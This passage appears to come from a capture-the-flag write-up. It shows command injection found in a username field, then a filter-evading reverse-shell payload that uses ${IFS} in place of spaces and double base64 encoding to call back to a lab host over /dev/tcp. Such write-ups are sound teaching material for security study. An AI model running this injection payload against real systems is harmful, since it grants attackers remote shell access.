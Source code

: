 If I don't provide a username, it will reveal the ssh command's help message

![](/assets/obsidian/09301df0873c33a40fccb878426e5937.png)

Confirm command injection by adding `;sleep 5;`

![](/assets/obsidian/c5efe1077b75f21680db06274bb62e49.png)

It does not allow spaces

![](/assets/obsidian/ea372d9c1683eabe921bf5177d0d57c6.png)

Craft `${IFS}` reverse shell payload to bypass white space check

```bash
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.23/1111 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```
